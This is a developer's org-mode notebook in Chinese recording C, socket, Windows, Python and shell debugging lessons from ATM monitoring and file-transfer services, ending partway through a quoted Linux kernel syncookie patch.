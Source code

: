 #+OPTIONS: "\n:t"
#+STARTUP: hidestars
* 减少BUG的策略
(从<编程精粹>学一些)
** 把编译器告警级别打到最高
** 使用lint工具
我的经验教训
** C文件所有函数和全局变量默认都设置为static
#+begin_example
   做这样一个东西,
   ATM监控,本来有个主线程采集ATM设备的状态信息,
   运行一段时间后,又一个新需求:要求能实时地把ATM上的对帐文件发送到服务器上.
   开始我写了一个独立的进程(.exe)实现上送文件的功能,测试过后,
   发现和原来的程序集成一块,最方便的办法是新功能作为一个线程存在,方便整个任务的控制.
   后来在服务器上测试收文件的服务程序,总会收到不合法的数据包.
   费了半天劲,终于发现实现采集的主文件agent.c里有个全局变量:
   struct sockaddr_in server_addr;
   而实现上送文件transact.cpp的函数也有同样的全局变量.
   
   问题的原因:
   编译链接时,transact.cpp链接到了agent.c中的server_addr
   transact.cpp初始化server_addr变量,错把agent.c用到的变量给改了.
   所以agent.c中发送的状态数据,都发送到接受文件的服务程序中了.
#+end_example
** 慎用全局变量
** 做好自己程序周边的模拟程序，尽量不依赖别人的程序为自己测试。
  做环境模拟程序，
  例如我做的ATM监控代理，测试功能需要与服务端交互，
  所以程序测试就严重依赖服务端了。我做了一个模拟服务端的程序，来辅助自己测试。

* 日志文件出现诡异乱码
编译器VC6，平台windows 2000 XP
日志文件如：
#+begin_example
2011/12/25 21:17:23(INF):  ENTER get_trackcard_status
2011/12/25 21:17:23(WAR):  open vdm faild -15
c 譁c 譁k 譁k 譁k 譁c 譁k 譁k 螠k....（省略若干乱码，直到重启）
#+end_example
问题只在一种型号机器偶然上出现，开始一点点怀疑是机器的问题，
代码如下：
#+begin_src c
void dlog(int type, const char *format, ...)
{
    va_list ap;
    FILE *fp;
    char msg[MAX_LINE_SIZE];

    fp = fopen(LOG_FILE, "a+");
    if(NULL == fp) {
        return;
    }
    va_start(ap, format);
    _vsnprintf(msg, sizeof(msg)-1, format, ap);
    msg[MAX_LINE_SIZE-1] = '\0';
    va_end(ap);
    write_log(fp, LOG_FILE, type, msg);
    fclose(fp);
    return;
}

void write_log(FILE *fp, char *name, int type, char *msg)
{
    time_t ltime;
    struct tm *today;
    #define TIME_STR_SIZE 64
    char date_str[TIME_STR_SIZE] = {0};
    char time_str[TIME_STR_SIZE] = {0};
    int size;
    char *typestr;
    int rc;
    time(&ltime);
    today = localtime(&ltime);
    switch(type) {
    case INFO_TYPE:
        typestr = "INF";
        break;
        ...
    default:
        return;
    }
    if (fp != NULL)
    {
        ...
        if (today != NULL) {
            rc = sprintf(date_str,"%04d/%02d/%02d",today->tm_year+1900,today->tm_mon+1,today->tm_mday);
            sprintf(time_str,"%02d:%02d:%02d",today->tm_hour,today->tm_min,today->tm_sec);
        }
        date_str[TIME_STR_SIZE - 1] = '\0';
        time_str[TIME_STR_SIZE - 1] = '\0';
        fprintf(fp, "%s %s(%s):  ", date_str, time_str, typestr);
        fprintf(fp, "%s", msg);
        fprintf(fp,"\n");
        fflush(fp);
    }
    return;
}
#+end_src
我写代码做很好的容错处理，
如对日志类型错误时，直接返回。
msg字符串末尾，强制加上一个结束符号。
即使调用dlog故意传一个非法的内存，只能打印512个乱码。
想的头疼也不可能出现这种问题。


开始我经常有一种直觉，就是
这句fprintf(fp, "%s", msg)出了问题。
当向日志文件输入时，msg所在内存，别的线程改掉了。
但是这种想法只是一晃就过去。
因为自己没有找到一个理由说服自己，更主要一个原因是
一直怀疑是自己代码其它部分引入的。

一个错误的观念导致我长时间解决不了问题。
这个观念是：
2011/12/25 21:17:23(WAR):  open vdm faild -15
和后面的乱码是分两次打入日志文件的。

这样考虑的话，
那就是
fprintf(fp, "%s %s(%s):  ", date_str, time_str, typestr);
这行代码的问题。
但是看了又看还是没有问题啊。郁闷。

N天后上午，一转念。
2011/12/25 21:17:23(WAR):  open vdm faild -15和后面乱码
是一起打入日志的。更有可能。
那就印证开始的直觉。
这样的话，就考虑到fprintf等函数是否thread-safe.

我启动了几个工作线程，使用了CreateThread
后来查了一下CreateThread和_beginthread区别
由于我的线程程序使用了大量的c库函数，所以应该使用_beginthread(ex)，而不是CreateThread.
#+begin_example
如果在除主线程之外的任何线程中进行一下操作，你就应该使用多线程版本的C runtime library,并使用_beginthreadex和_endthreadex：
　　　1 使用malloc()和free()，或是new和delete
　　　2 使用stdio.h或io.h里面声明的任何函数
　　　3 使用浮点变量或浮点运算函数
　　　4 调用任何一个使用了静态缓冲区的runtime函数，比如:asctime(),strtok()或rand()
#+end_example

Keypoint: C runtime library  is  thread-safe?

* 关于cp命令复制整个目录的问题
#+begin_example
  问题背景：
  原有一块80G的硬盘，装有oracle和tomcat，由于硬盘大小，
  无法满足业务的需要，银行又新加一块320G的硬盘，
  我让人先把新硬盘格式化后，
  mount /dev/sdb /mnt
  cd /opt/oracle
  cp -R * /mnt
  这样把oracle的数据文件都复制到新硬盘上了，
  然后修改/etc/fstab，把/dev/sdb mount到/opt/oracle下
  结果有启动有问题。
  
  原因是cp -R没有把原文件的权限复制过去。
  可以使用cp -a * /mnt，具体见cp --help
#+end_example
* windows 使用read读包含\r\n文本
  Windows doesn't distinguish between \r\n and any other two characters.
  However, there is one situation where it is treated as one character: 
  if you use the C runtime and open a file as text, \r\n in the file will be read as \n, and \n will be written to the file as \r\n.
  需要read函数返回准确读取字符的个数，需要open函数指定O_BINARY标志，这个标志好像只有windows有。
* read 问题
#+begin_example
  我写了一个打包文件的小工具，
  解包时，生成的文件总是长度不足，
  最后发现原因是没有open时没有指定以binary方式读取。
 #+end_example
* windows socket编程一个问题，该死的windows
  关闭socket，使用closesocket
  而不是close，
  
* 关于socket server有大量socket处于TIME_WAIT问题处理。
  这个问题由于server先于client调用了close。
  可以这样操作。
  client:
  close(sock)
  server:
  recv(sock, buff, sizeof(buff));
  close(sock);
  这样就可以保证server后调用close,变成被动关闭了。呵呵
* popen使用不当引入的问题

  写一个python服务程序A
  接受客户端的请求，
  通过popen调用脚本启动、关闭、或者重启一个服务B。
  而服务B也是由python写。
  当服务A完成工作，执行sock.close，
  我发现客户端根本没有感知到。
  sock.recv(1024)一直阻塞着。
  通过netstat -tnp
  发现链接在建立着。
  
  后来发现由于popen启动子进程复制了服务程序A的所有文件描述符，包括socket的，
  所以close一次不能关闭。
  设置了close_fs = True，才解决这个问题
  Popen([cmd], stdout=PIPE, close_fds=True)
* socket recv接口使用不当
  recv接受最大的数据长度是是sizeof(read_buff)，
  但是并不保证每次能接受sizeof(read_buff)长度，所以以读取长度少于缓冲长度，
  判断传输文件完毕是不对的。
  实际环境中，往往出现产生大小少于原文件的小文件。
#+begin_src c
    while(filelen > 0) {
        len = recv(sock, read_buff, sizeof(read_buff), 0);
        if(len == SOCKET_ERROR) {
            mon_log(INFO_TYPE, "recv error %d\n", WSAGetLastError());
            fclose(fp);
            return 1;
        }
        /* 这一句是不对的!! */
        if(len < sizeof(read_buff)) {
            goto LAST;
        }
        rc = fwrite(read_buff, sizeof(char), len, fp);
        if(rc < len) {
            mon_log(INFO_TYPE, "\nwrite file failed %s\n", strerror(errno));
            fclose(fp);
            return 1;
        }
        filelen -= len;
    }
    LAST:
#+end_src
* 有注释引发的程序问题！
  我写一个程序调试了半天多，
  最后才发现原因是注释中的汉字在编译环境中被视为乱码，
#+begin_src c
  /* 注释 */
  code1
  code2
  /* 注释 */
  code3
#+end_src
 结果两个注释连为一个注释，其中code1和 code2全被注释掉了
 以后注意汉字两头都加空格（英文空格)

* 运行命令挂住
在windows上写一个支持远程控制的服务程序
其中需要远程运行终端的程序，并获取程序输出。
结果发现运行的程序，如果程序输出会多于一屏左右时，
那么远程控制服务一直挂起。
代码如下：
#+begin_src c
int exec_cmd(SOCKET sock, char *data_buff)
{
    PROCESS_INFORMATION pi = {0};
    STARTUPINFO si;
    SECURITY_ATTRIBUTES sa;
    HANDLE hRead, hWrite;
    DWORD bytesRead;
    BOOL res;
    char buffer[1024], cmd[128];

    memset(buffer, 0, 1024);
    sprintf(cmd, "cmd.exe /C %s", data_buff);

    sa.nLength = sizeof(SECURITY_ATTRIBUTES);
    sa.lpSecurityDescriptor = NULL;
    sa.bInheritHandle = TRUE;
    if (!CreatePipe(&hRead,&hWrite,&sa,0)) {
        sprintf(buffer, "create pipe failed %d\n", GetLastError());
        sendn(sock, buffer, strlen(buffer)+1);
        goto LAST;
    }
   if (!SetHandleInformation(hRead, HANDLE_FLAG_INHERIT, 0) ) {
       sprintf(buffer, "SetHandleInformation failed %d\n", GetLastError());
       sendn(sock, buffer, strlen(buffer)+1);
       goto LAST;
   }
    memset(&si, 0, sizeof(si));
    GetStartupInfo(&si);
    si.dwFlags |= STARTF_USESTDHANDLES; 
    si.wShowWindow = SW_HIDE;
	
    si.hStdOutput = hWrite;
    si.hStdError = hWrite;
    res = CreateProcess(NULL, cmd, NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);
    if (res) {
        WaitForSingleObject(pi.hProcess, INFINITE);
        CloseHandle(pi.hThread);
        CloseHandle(pi.hProcess);
    }
    else {
        CloseHandle(hWrite);
        CloseHandle(hRead);
        sprintf(buffer, "CreateProcess %s failed %d\n", cmd, GetLastError());
        sendn(sock, buffer, strlen(buffer)+1);
        goto LAST;
    }
    CloseHandle(hWrite);
    while(1) {
        memset(buffer, 0, sizeof(buffer));
        if(!ReadFile(hRead, buffer, sizeof(buffer), &bytesRead, NULL)) {
            break;
        }
        sendn(sock, buffer, bytesRead);
    }
    CloseHandle(hRead);

LAST:
    sendn(sock, EOF_STR, strlen(EOF_STR));
    return 0;
}
#+end_src
过程：
当创建一个进程成功时，程序阻塞，等于运行命令的进程退出。
新进程将输出写入管道。
然后我们读取管道中的输出信息，发送到远端。

问题在于：
当进程输出多于默认的管道的缓冲区时，进程阻塞，
等待管道的另一端读取信息。
但是在上述程序中，却一直在等到程序退出，等到程序退出再去读管道。
所以就僵持这里了，一直阻塞。

正确的做法：
#+begin_src c
    res = CreateProcess(NULL, cmd, NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);
    if (res) {
        (void)CloseHandle(hWrite);
        for(;;) {
            if(!ReadFile(hRead, buffer, sizeof(buffer), &bytesRead, NULL)) {
                break;
            }
            if(senden(sock, buffer, bytesRead) <= 0) {
                break;
            }
        }
        (void)CloseHandle(hRead);
        (void)WaitForSingleObject(pi.hProcess, 30*60*1000);
        (void)CloseHandle(pi.hThread);
        (void)CloseHandle(pi.hProcess);
    }
    else {
        (void)CloseHandle(hWrite);
        (void)CloseHandle(hRead);
        sprintf(buffer, "CreateProcess %s failed %lu\n", cmd, GetLastError());
        (void)senden(sock, buffer, strlen(buffer));
        goto LAST;
    }
LAST:
    (void)sendeneof(sock);
    return;
#+end_src
* python list遍历删除问题
下面代码：
#+begin_example
items = [1, 2, 3, 4, 5, 6]
for item in items:
    items.remove(item)
print items
#+end_example
输出为2，4，6
并不会删除所有的元素！

* 捉虫记
** 背景：
   由于dev_getinfo访问硬件速度很慢，所以使用hash的方式，
  使用dev_name和dwCategory拼成的字符串作为键，所以之前的访问硬件的结果。
** 问题：
  但是实际上使用dev_getcacheinfo时，发现一个设备总是不能从hash读到cache，总要调用dev_getinfo。
  如果在同一个函数调用第二dev_getcacheinfo会从hash表，读到cache.
例如下面函数
#+begin_src c
static int get_operatorswitch(USHORT *status)
{
    ...
    SIU.debug(INFO_TYPE, "ENTER get_operatorswitch");
    /* A */
    hr = SIU.getcacheinfo(module_name, WFS_INF_SIU_STATUS, &lpResult);
    ...
    /* B */
    hr = SIU.getcacheinfo(module_name, WFS_INF_SIU_STATUS, &lpResult);
    ...
}

static int get_operatorswitch2(USHORT *status)
{
    ...
    /* C */
    hr = SIU.getcacheinfo(module_name, WFS_INF_SIU_STATUS, &lpResult);
    ...
    /* D */
    hr = SIU.getcacheinfo(module_name, WFS_INF_SIU_STATUS, &lpResult);
    ...
}

int main() 
{
   get_operatorswitch(status);
   get_operatorswitch2(status);
}
#+end_src
结果发现有的设备
B处可以从hash读到cache，因为A句把访问结果放到hash表中。
C处居然读不到cache，还要直接调用dev_getinfo。
D处可以从hash读取cache。

只要跨函数就不行了，情况很诡异。
** 原因
那究竟是什么原因呢？
关键有两处
1. find_entry函数中：这一句 he->key = (void *)key;
   如果键值是字符串，那就是说hash表中只保存了字符串的起始地址，没有保存内容。
2. dev_getcacheinfo函数中：
   把局部字符数组地址做键值。
至于为什么跨函数就不行了，
原因应该是当调用get_operatorswitch2()时，get_operatorswitch()建立的栈就已经被破坏了（字符串内容也破坏了）
而hash表中对应项的键还指向那个位置，所以在查找hash表，对比键时，总找不到名字相同的项。

#+begin_src c
   char key[256]; //这可是局部变量啊！！！
   sprintf(key, "%s-%d", dev_name, dwCategory);
   // ...
   // 把局部字符数组地址做键值
   mon_hash_set(cache_info, key, MON_HASH_KEY_STRING, unit);
#+end_src
** 定位方法
   由于开发环境是VC，工程涉及的多个dll，我不知道如何调试。
   我采用了最笨的方法，再代码中加printf查看调用过程，花费很长的时间！
   如果可以的话，可以使用编译器调试的方式，提高效率。
   还有对于跨函数的问题，背后的本质不理解。
   如果从跨函数上，把方向定在局部变量的使用，估计定位时间会短一些。
** 函数
问题涉及的所以函数如下：
#+begin_src c
MYXFSAPI HRESULT dev_getcacheinfo(char *dev_name, DWORD dwCategory, LPWFSRESULT *lppResult)
{
    struct cache_unit_t *unit = NULL;
    char key[256];
    HRESULT hr = -1;
    DWORD ticks = 0;
    sprintf(key, "%s-%d", dev_name, dwCategory);
    if(NULL == lppResult) return -1;
    unit = mon_hash_get(cache_info, key, MON_HASH_KEY_STRING);
    if(unit && unit->lpResult) {
        ticks = GetTickCount();
        /* 10秒内的数据有效*/
        if(ticks <= unit->ticks+ 1000 * 10) {
            *lppResult = unit->lpResult;
            return WFS_SUCCESS;
        }
    }
    hr = dev_getinfo(dev_name, dwCategory, lppResult);
    if(WFS_SUCCESS == hr) {
        if(NULL == unit) {
            unit = malloc(sizeof(struct cache_unit_t));
            memset(unit, 0, sizeof(struct cache_unit_t));
        }
        /* 释放之前存放的信息 */
        if(unit->lpResult) {
            XFS_FreeResult(unit->lpResult);
        }
        unit->ticks = GetTickCount();
        unit->lpResult = *lppResult;
        mon_hash_set(cache_info, key, MON_HASH_KEY_STRING, unit);
    }
    return hr;
}

void * mon_hash_get(mon_hash_t *ht, const void *key, int klen)
{
    mon_hash_entry_t *he;
    he = *find_entry(ht, key, klen, NULL);
    if (he) {
        return (void *)he->val;
    }
    else {
        return NULL;
    }
}

void mon_hash_set(mon_hash_t *ht, const void *key, int klen, const void *val)
{
    mon_hash_entry_t **hep;
    hep = find_entry(ht, key, klen, val);
    if (*hep) {
        if (!val) {
	    /* 删除旧项 */
            mon_hash_entry_t *old = *hep;
            /* 如果旧项的键中保存了字符串，释放之。 */
            if(old->isstr) {
                if(old->key) free(old->key);
                old->key = NULL;
            }
            *hep = (*hep)->next;
            old->next = ht->free;
            ht->free = old;
            --ht->count;
        }
        else {
	    /* 更新项 */
            (*hep)->val = val;

            if (ht->count > ht->max) {
                expand_array(ht);
            }
        }
    }
}
/*
 * 如果val不等于NULL，而且哈希表中不存在指定的项，那么就创建该项。
 */
static mon_hash_entry_t **find_entry(mon_hash_t *ht,
                                     const void *key,
                                     int klen,
                                     const void *val)
{
    mon_hash_entry_t **hep, *he;
    unsigned int hash;

    hash = ht->hash_func(key, &klen);
    /* 遍历列表 */
    for (hep = &ht->array[hash & ht->max], he = *hep;
         he; hep = &he->next, he = *hep) {
        if (he->hash == hash
            && he->klen == klen
            && memcmp(he->key, key, klen) == 0)
            break;
    }
    /*  */
    if (he || !val)
        return hep;

    /* 重用之前的释放的元素 */
    if ((he = ht->free) != NULL) {
        ht->free = he->next;
    }
    else {
        he = malloc(sizeof(*he));
    }
    he->isstr = isstr;
    he->next = NULL;
    he->hash = hash;
    he->key = (void *)key;
    he->klen = klen;
    he->val  = val;
    *hep = he;
    ht->count++;
    return hep;
}
#+end_src
* 误改返回值导致ATM重启
#+begin_src c
  HRESULT dev_getinfo(char *dev_name, DWORD dwCategory, LPWFSRESULT *lppResult)
 {
    HRESULT hr;
    HSERVICE hService;

    hr = dev_open(dev_name, &hService);
    if(WFS_SUCCESS != hr) {
        dlog(WARNING_TYPE, "%s: failed to dev_open %d", dev_name, hr);
        return hr;
    }
    hr = XFS_GetInfo( hService, dwCategory, NULL, XFS_GETINFO_TIMEOUT, lppResult);
    if(WFS_ERR_CANCELED == hr) {
        ExitThread(0);
    }
    if (hr != WFS_SUCCESS) {
        dlog(WARNING_TYPE, "%s: failed to dev_getinfo(dwCategory=%d)  hr=%d", dev_name, dwCategory, hr);
    }
    dev_close(hService);
    return hr
}

//另一个模块:
static LPWFSCIMPHCU get_cimunit(int index, LPWFSCIMCASHIN *lppUnit, HRESULT *phResult)
{
    HRESULT hr;
    LPWFSRESULT lpResult;
    int i = 0, j;
    int count = 0;

    *phResult = 0;

    hr = CIM.getcacheinfo( CIM.module_params, WFS_INF_CIM_CASH_UNIT_INFO, &lpResult);
    if (WFS_SUCCESS == hr) {
        LPWFSCIMCASHINFO lpCashUnitInfo = (LPWFSCIMCASHINFO)lpResult->lpBuffer;
        ....
#+end_src

后来为了加一个功能:
 dev_getinfo最后改成了:
#+begin_src c
...
 hr = dev_close(hService);
 if(WFS_ERR_CANCELED == hr) {
     ExitThread(0);
 }
 return hr;
#+end_src

由于dev_open成功打开,再调用dev_close返回值必定为SUCCESS.
所以这个dev_getinfo只要逻辑设备能打开,无论能否XFS_GetInfo,都返回成功.
这样问题就来.
get_cimunit调用dev_getinfo,设备能打开,但是获取不了设备信息,lpResult为NULL.
后续代码就异常了.

教训:
 hr = dev_close(hService);
 使用hr目的只是为了判定一下,dev_close,结果把返回值都修改了.
 对于函数的返回值特殊命名,不得乱赋值.
 对于这个案例,可以写成val = dev_close(hService);

* 又一个全局变量引入的bug
我写的一个接受文件的服务程序：
部分代码：
#+begin_src c
int listenfd, connfd;
...
main() {
    ....
    for(;;) {
        struct timeval tv;
        int rc;
        connfd = accept(listenfd, NULL, NULL);
        tv.tv_sec = 45;
        tv.tv_usec = 0;
        rc = setsockopt(connfd, SOL_SOCKET, SO_RCVTIMEO, (char *)&tv,  sizeof tv);
        printf("rc = %d\n", rc);
        printf("accept a connection\n");
        pthread_create(&thread, &attr, work, (void *)connfd);
    }
}

void *work(void *p)
{
    connfd = (int )p;

    if(...) {
       ...
       close(connfd);
       retur NULL;
    }
    ...
    close(connfd);
    return NULL;
}
#+end_src
在实际应用环境，运行netstat
发现链接处于大量CLOSE_WAIT
但是代码我都关闭socket链接啊。
而且本地测试时，也没有问题。
最后终于发现问题所在。
work()居然没有定义connfd！
而使用全局变量connfd
当work()工作时，main()又收一个一个新请求。
调用新的work()工作，将覆盖connfd.
当旧work()退出时，把新的work()使用的链接给释放了，它自己的链接确没有释放。
罪过啊。
我都不记得什么时间定义了connfd这个全局变量。

我的坏编程习惯：开始把变量堆在函数外面，当做全局变量，后续再慢慢移走。

新习惯：所有变量统统定义为局部变量！

这个问题还触发另一个发送文件客户端的BUG：
客户端接受来自服务端的确认，
通过服务端确认：发送内容的偏移值和内容长度，
#+begin_src c
/* 接受服务端确认信息 */
if ((rlen = recvn(sock, &msg_head, sizeof(msg_head))) <= 0) {
    closesocket(sock);
    Sleep(60*1000);
    goto RETRY;
}
else {
    /* 根据确认信息，更新发送偏移值 */
    sent_record.offset = msg_head.offset + msg_head.len;
    strncpy(sent_record.timestamp, msg_head.timestamp, TIMESTAMP_SIZE);
}
#+end_src
由于上一个全局变量BUG，会将一个正在工作的work()的链接关掉。
所以很有可能revn接受的消息长度少于msg_head。
但是客户端也没有判断这种情况，当时问题真的发生时。
由于msg_head数据结构没有赋初始值，所以msg_head.ofset和msg_head.len
中就是垃圾值。

实际运行场景中真的出现了，sent_record.offset突然跳变为一个非法值的情况。

教训：recvn如果确认接受消息长度的情况下，务必判断长度是否合法。
#+begin_src c
if ((rlen = recvn(sock, &msg_head, sizeof(msg_head))) < sizeof(msg_head)) {
    /* 非法 */
}
#+end_src

* exit

#+begin_src c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <pthread.h>


pthread_attr_t attr;
char *global;
#define SIZE 1024
void *t1(void *p)
{
    for(;;) {
        memset(global, 1, SIZE);
    }
    return NULL;
}

int main(void)
{
    int i;
    pthread_t tid;

    global = malloc(SIZE);
    pthread_attr_init(&attr);
    pthread_attr_setdetachstate(&attr, PTHREAD_CREATE_DETACHED);
    for (i = 0; i < 100; i++)
        pthread_create(&tid, &attr, t1, (void *)i);
    sleep(5);
    printf("exit111111111111\n");
    free(global);
    return 0;
}
#+end_src
* 自动启动服务工作不正常
  在suse中，/etc/init.d/boot.local:
  加入
  nohup /usr/app/trans_srv &
  
  其中trasn_srv是C编写的一个服务程序。
  它使用system("java -cp \".:$JAVA_HOME/lib/dt.jar:$JAVA_HOME/lib/tools.jar:$JAVA_HOME/jre/lib/rt.jar\" Db.class");
  调用Db.class进行工作。
  
  结果发现，nonup.out中有sh: java command not found.
  于是在开头加入：
  export PATH=$PATH;/app/jdk/bin
  结果还是不行。

  最后，最后，才意识到：
   export PATH=$PATH;/app/jdk/bin
   其中把":"写称";"了。
* SIGPIPE
将SIGPIPE信号忽略后,
在main.cpp
signal(SIGPIPE, SIG_IGN);

服务程序,还是会出现
Program received signal SIGPIPE, Broken pipe.
而被终止.

原因是signal设置的信号句柄只能起一次作用,信号被捕获一次后,信号句柄就会被还原成默认值了. 
应使用sigaction

* 注册activeX控件成功后, 在网页中调用失败.
regsvr32.exe xxx.ocx
注册activeX控件成功后, 在网页中调用失败.

Activex控件的“运行时许可证”的问题：

在文章 ： 使 用ActiveX控件开发网页常见的问题中有这么一段话：
ActiveX控件提供一套完整的保护机制，可以防止未经许可的用户在网页上使用 ActiveX控件。到目前为止，已经有一些开发工具支持这套机制，例如Visual Basic、Microsoft Access、和 Internet Explorer 3.0 beta2版。 现有的控件授权许可证机制有两种许可形式：开发许可证和运行使用许可证。开发许可证允许许可证的持有者使用控件，利用 VisualBasic，ActiveX ControlPad，以及其它有关的开发工具，从事以开发为目的活动。运行使用许可证只允许许可证的持有者在已有的应用或网页中显示控件，不允许将控件插入有关工具中，用于开发目的活动。支持许可证机制是独立控件开发上的工作。有些控件开发商选择了不支持许可证机制的开发策略，因此对任何用户来说，他们 开发的控件一旦被安装到本地机上，就可以用于开发。另一些控件开发商只提供免费的运行许可证，而在提供开发许可证时需要收费。需要在网上使用控件的用户， 应该详细地阅读控件开发商提供的许可证协议，以确定自己使用控件的权限。
可是在此之前我并不明白什么运行时许可证的问题，因而，在开发控件的时候，新建工程我就把“运行时许可证”一项选中了，后来证明着给我的同事在使用的时候造成了麻烦，当我把程序生成的控件.ocx发给他的时候他遇到了这个问题：
---------------------------
Microsoft Visual Studio
---------------------------
创建组件“XXXX(注意保密O(∩_∩)O)”失败。
错误消息为:  “System.ComponentModel.LicenseException: 您必须有许可证才能使用此 ActiveX 控件。  
 在 System.Windows.Forms.Design.DocumentDesigner.AxToolboxItem.CreateComponentsCore(IDesignerHost host)   
在 System.Drawing.Design.ToolboxItem.CreateComponentsCore(IDesignerHost host, IDictionary defaultValues)   在 System.Drawing.Design.ToolboxItem.CreateComponents(IDesignerHost host, IDictionary defaultValues)   
在 System.Windows.Forms.Design.OleDragDropHandler.CreateTool(ToolboxItem tool, Control parent, Int32 x, Int32 y, Int32 width, Int32 height, Boolean hasLocation, Boolean hasSize, ToolboxSnapDragDropEventArgs e)”
---------------------------
确定  
---------------------------
而当我把程序同时生成的license文件给他的时候，就可以运行了。
当然，目前的问题是我想把这个东西去掉……
去掉的办法是：
1. 在项目的属性中选择:配置属性->生成事件->生成后事件，然后清空“命令行”一项中的内容，清空“说明”
2. 在源文件中，找到Ctrl类，
在头文件中去掉：
        virtual BOOL VerifyUserLicense();
        virtual BOOL GetLicenseKey(DWORD, BSTR FAR*);
在源文件中去掉上述二者的函数体，还有去掉两个授权字符串：
// 授权字符串
static const TCHAR BASED_CODE _szLicFileName[] = _T("XXX(工程名).lic");
static const WCHAR BASED_CODE _szLicString[] =  L"Copyright (c) 2010 ";
之后。重新编译，就好了，这次就不会生成license文件(XXX(工程名).lic)，并且不需要授权文件了。
* shell脚本“syntax error:unexpected end of file”
  1、在windows编辑的脚本，然后在unix上运行，由于windows换行是\r\n，而unix是\n
  所以就出问题了，可以用dos2unix转换为unix下的格式。
  2、脚本语法有问题。
  有人找我看一个profile文件，运行，报错syntax error:unexpected end of file
  我开始怀疑是换行格式的问题了，看了半天，发现：
  if xxxx
     xxx
  Fi
  其中fi错写为Fi了。
* socket system()
  写了服务程序其中开一个端口,监听来客户端的请求.
  收到请求后,使用system()调用外部程序.
  当我把服务程序kill掉,重起时发现被调用起来的外部程序居然占用服务的端口.
  方法:
   fcntl(fd, SETFD, FD_CLOEXEC);
   这样使用system()产生子进程就不会继承这个socket fd.
   FD_CLOEXEC表示当程序执行exec函数时本fd将被系统自动关闭,表示不传递给exec创建的新进程.
* nignix 做反向代理的,ip src address = dst address = 0.0.0.0
  suse 11 sp1 升级到 suse 11 sp2后,24小时发生这个问题.
  我基于ip的src地址不能为0.0.0.0,初步判断是内核问题.
  后来看代码

static int tcp_transmit_skb(struct sock *sk, struct sk_buff *skb, int clone_it,
			    gfp_t gfp_mask)
{
        ...

	inet = inet_sk(sk);
        ...
	err = icsk->icsk_af_ops->queue_xmit(skb, &inet->cork.fl);
	if (likely(err <= 0))
		return err;

	tcp_enter_cwr(sk, 1);

	return net_xmit_eval(err);
}

ip_queue_xmit():
int ip_queue_xmit(struct sk_buff *skb, struct flowi *fl)
{
struct sock *sk = skb->sk;
struct inet_sock *inet = inet_sk(sk);
struct ip_options_rcu *inet_opt;
struct flowi4 *fl4;
struct rtable *rt;
struct iphdr *iph;
int res;
 
/* Skip all of this if the packet is already routed,
 * f.e. by something like SCTP.
 */
rcu_read_lock();
inet_opt = rcu_dereference(inet->inet_opt);
fl4 = &fl->u.ip4;
rt = skb_rtable(skb);
if (rt != NULL)
goto packet_routed;
....
iph->ttl      = ip_select_ttl(inet, &rt->dst);
iph->protocol = sk->sk_protocol;
iph->saddr    = fl4->saddr;
iph->daddr    = fl4->daddr;
...
如果fl4中fl4->saddr和fl4->daddr都是0,就会出现,目前遇到的问题.
}

于是你查找inet->cork.fl给赋值的代码
找到cookie_v4_check

struct sock *cookie_v4_check(struct sock *sk, struct sk_buff *skb,
			     struct ip_options *opt)
{
...
	ret = get_cookie_sock(sk, skb, req, &rt->dst);
	/* ip_queue_xmit() depends on our flow being setup
	 * Normal sockets get it right from inet_csk_route_child_sock()
	 */
	if (ret)
		inet_sk(ret)->cork.fl.u.ip4 = fl4;
out:	return ret;
}

www.kernel.org

/pub/linux/kernel/v3.x/patch-3.0.82.xz
--- a/net/ipv4/syncookies.c

+++ b/net/ipv4/syncookies.c

@@ -276,7 +276,8 @@ struct sock *cookie_v4_check(struct sock *sk, struct sk_buff *skb,

         int mss;

         struct rtable *rt;

         __u8 rcv_wscale;

-        bool ecn_ok;

+        bool ecn_ok = false;

+        struct flowi4 fl4;

 

         if (!sysctl_tcp_syncookies || !th->ack || th->rst)

                 goto out;

@@ -344,20 +345,16 @@ struct sock *cookie_v4_check(struct sock *sk, struct sk_buff *skb,

          * hasn't changed since we received the original syn, but I see

          * no easy way to do this.

          */

-        {

-                struct flowi4 fl4;

-

-                flowi4_init_output(&fl4, 0, sk->sk_mark, RT_CONN_FLAGS(sk),

-                                   RT_SCOPE_UNIVERSE, IPPROTO_TCP,

-                                   inet_sk_flowi_flags(sk),

-                                   (opt && opt->srr) ? opt->faddr : ireq->rmt_addr,

